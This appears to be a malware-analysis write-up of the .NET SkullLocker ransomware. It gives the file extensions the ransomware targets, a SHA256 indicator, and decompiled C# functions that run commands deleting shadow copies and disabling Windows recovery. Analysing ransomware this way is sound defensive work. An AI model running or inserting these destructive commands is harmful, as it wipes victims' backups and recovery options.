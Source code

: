 ```bash
".cfm",".dbx",".dcm",".dcr",".pict",".rgbe",".dwt",".f4v",".exr",".kwm",".max",".mda",".mde",".mdf",".mdw",".mht",".mpv",".msg",".myi",".nef",".odc",

".geo",".swift",".odm",".odp",".oft",".orf",".pfx",".p12",".pl",".pls",".safe",".tab",".vbs",".xlk",".xlm",".xlt",".xltm",".svgz",".slk",".tar.gz",

".dmg",".ps",".psb",".tif",".rss",".key",".vob",".epsp",".dc3",".iff",".onepkg",".onetoc2",".opt",".p7b",".pam",".r3d"
```



## Indicators of Compromise

The sample used in this article is the same one mentioned by [macert](https://www.dgssi.gov.ma/fr/content/4061060323-skulllocker-ransomware.html) team .

| Type   | Indicator                                                        | Description                 |
| ------ | ---------------------------------------------------------------- | --------------------------- |
| SHA256 | bb5ca9d8de51734dbd14dc081c7c892d819cd14fafd7ccd62849d70f9e679369 | SkullLocker Main Ransomware |       |                                                                  |                             |

## Analysis 


According to first analysis it appears that the ransomware is built using .net .

![detect it easy](/images/die.png)

the ransomware doesn't have any obfuscation techniques all you need to decompile it using .net tools and you will have the source code ( i personaly hate these kind of ransomwares since i do not enjoy breaking them down). 

in order to understand how it works we will cover the principal methodes and functions that is used to encrypt files and how it work in general .

### Infection Chain

```cs
private static void deleteShadowCopies()
		{
			Program.runCommand("vssadmin delete shadows /all /quiet & wmic shadowcopy delete");
		}
```

- delete all the shadow copies on the system to prevent users from recovering previous versions of files or folders.

```cs
private static void disableRecoveryMode()
		{
			Program.runCommand("bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no");
		}
```
